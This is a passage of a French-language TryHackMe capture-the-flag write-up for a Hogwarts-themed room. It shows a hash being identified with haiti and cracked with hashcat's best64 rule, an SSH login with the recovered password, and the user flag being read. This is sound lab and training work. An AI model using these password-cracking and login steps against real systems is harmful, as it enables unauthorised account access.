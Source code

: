 On trouve un commentaire que le nom d'utilisateur est Harry. 
Et le mot de passe utilise la règle best64 de hashcat.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
SHA-512 [HC: 1700] [JtR: raw-sha512]
```

On identifie le hash ave haiti, qui nous dit que c'est du SHA-512. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 1700 hash spellnames.txt -r /usr/share/hashcat/rules/best64.rule --quiet
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
```

On casse le mot de passe avec la règle best64.rule, le mot de passe est : wingardiumleviosa123  

![page1](./Task1-02.png)

On s'identifie avec les idenfiant : Harry Turner:wingardiumleviosa123
On voit un message qui dit que réutiliser le mot de passe c'est une mauvaise idée.   

**User1.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh harry@hogwartz-castle.thm
The authenticity of host 'hogwartz-castle.thm (10.10.56.77)' can't be established.
ECDSA key fingerprint is SHA256:tqvs4QmNV2BNfZVq42KFIsFtERVf7F4W5ziragiTf/0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'hogwartz-castle.thm,10.10.56.77' (ECDSA) to the list of known hosts.
harry@hogwartz-castle.thm's password: 
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Thu Nov 26 01:42:18 2020
harry@hogwartz-castle:~$ ls
user1.txt
harry@hogwartz-castle:~$ cat user1.txt 
RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}
```
